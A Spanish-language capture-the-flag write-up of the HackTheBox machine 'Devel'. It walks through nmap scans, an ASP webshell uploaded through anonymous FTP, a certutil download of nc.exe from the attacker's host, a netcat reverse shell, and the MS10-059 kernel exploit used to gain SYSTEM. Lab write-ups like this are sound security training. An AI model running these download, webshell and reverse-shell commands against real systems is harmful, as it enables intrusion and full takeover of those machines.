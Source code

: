 ```yaml
---
tags:
  - Abusing FTP + IIS Services
  - Microsoft Windows (x86) – ‘afd.sys’ (MS11-046) [Privilege Escalation]
---
```


# Devel <!-- omit from toc -->

Write-up de la máquina Devel de [HackTheBox](https://hackthebox.com).

![Cover de Devel](images/cover.png)

## Índice <!-- omit from toc -->

- [Introducción](#introducción)
  - [Estadísticas](#estadísticas)
- [Reconocimiento](#reconocimiento)
  - [Escaneo de host](#escaneo-de-host)
    - [Escaneo completo de puertos](#escaneo-completo-de-puertos)
    - [Escaneo específico](#escaneo-específico)
- [Enumeración](#enumeración)
  - [Servicios](#servicios)
    - [ftp - 21](#ftp---21)
- [Explotación](#explotación)
  - [RCE](#rce)
- [Post Explotación](#post-explotación)
  - [Enumeración](#enumeración-1)
  - [Escalación de privilegios](#escalación-de-privilegios)
    - [nt apppool\\web → nt authority\\system](#nt-apppoolweb--nt-authoritysystem)
- [Referencias](#referencias)

## Introducción

### Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [Devel](https://app.hackthebox.com/machines/Devel) |
| OS | Windows |
| Dificultad oficial | Easy |
| Dificultad de comunidad | ![Dificultad](images/diff.png) |
| Puntos | 20 |
| Creadores | [ch4p](https://app.hackthebox.com/users/1) |

## Reconocimiento

### Escaneo de host

#### Escaneo completo de puertos

```bash
└─$ nmap -T5 -vvv -open -p- -n -Pn -oG nmap/all_ports $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-16 10:23 EDT
Initiating Connect Scan at 10:23
Scanning 10.10.10.5 [65535 ports]
Discovered open port 21/tcp on 10.10.10.5
Discovered open port 80/tcp on 10.10.10.5
Connect Scan Timing: About 26.80% done; ETC: 10:25 (0:01:25 remaining)
Completed Connect Scan at 10:25, 112.65s elapsed (65535 total ports)
Nmap scan report for 10.10.10.5
Host is up, received user-set (0.064s latency).
Scanned at 2022-06-16 10:23:39 EDT for 113s
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 112.68 seconds
```

#### Escaneo específico

```bash
└─$ nmap -sCV -p 80,21 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-16 10:29 EDT
Nmap scan report for 10.10.10.5
Host is up (0.064s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.36 seconds
```

## Enumeración

### Servicios

#### ftp - 21

Si bien se buscó analizar el servicio http, no se encontró nada relevante que pudiera sobresalir para la fase de explotación, salvo la recopilación de información ya presente en el escaneo de nmap el cuál presenta la versión del servidor IIS presente.

Al identificar mediante el escaneo específico de nmap el logueo por medio de la cuenta anónima que ofrecen los servidores ftp, se buscó ingresar para visualizar qué archivos se encontraban presentes y si además de permitir el listado de estos, se permitía la escritura en el directorio.

Al visualizar los archivos disponibles se identificó que correspondían con los archivos relacionados al servidor web en cuestión, por lo que al cargar un archivo de prueba se buscó visualizarlo mediante el navegador, corroborando así un camino de explotación mediante la ejecución de código.

![Carga de archivo de prueba](images/enum_1.png)

Visualización en navegador

![Visualización en navegador](images/enum_2.png)

## Explotación

### RCE

De acuerdo a la tecnología empleada se buscó cargar una webshell de `asp` para ejecutar comandos en la máquina, la cual se puede ubicar en `/usr/share/webshells/asp`.

![Carga de archivos](images/exploit_1.png)

Por lo que después de la carga del binario de netcat mediante:

```powershell
certutil.exe -f -urlcache http://10.10.14.16/nc.exe c:\windows\temp\nc.exe
```

Se obtuvo una reverse shell como `iis apppool\web` entablandola con:

```powershell
c:\windows\temp\nc.exe -e cmd.exe 10.10.14.16 1234
```

![Carga de nc.exe](images/exploit_2.png)

Reverse shell entablada:

![Reverse shell](images/exploit_3.png)

## Post Explotación

### Enumeración

Al identificar mediante `systeminfo` que se trataba de una versión vieja de Windows 7, sumando que en la misma información mostrada por el comando no se visualizaba ningún parche instalado, se asumió que la ruta de escalación iba intencionada a realizarse por medio de explotación de kernel.

![Información de sistema](images/post_1.png)

### Escalación de privilegios

#### nt apppool\web &rarr; nt authority\system

Después de ocupar el [repositorio de exploits de kernel de windows](https://github.com/SecWiki/windows-kernel-exploits) para buscar alguno que fuera a la par de la fecha y acorde a la versión del sistema operativo, se encontró que el exploit relacionado a `MS10-59` era operativo pero debido a que el presente en el repositorio es presentado mediante una prueba de concepto la cual retorna una shell lanzando otro proceso/ventana y no en la presente a donde se ejecuta.

Se optó por buscar alguna otra prueba de concepto que permitiera otro enfoque, encontrando así otro [repositorio del mismo exploit](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled) el cuál mediante la especificación de la IP de escucha y puerto permite entablar una reverse shell como `nt authority\system`, obteniendola mediante:

```powershell
.\churri.exe 10.10.14.16 4321
```

![Acceso como nt authority\system](images/post_2.png)

## Referencias

- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits).
- [egre55 - MS10-059](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled).

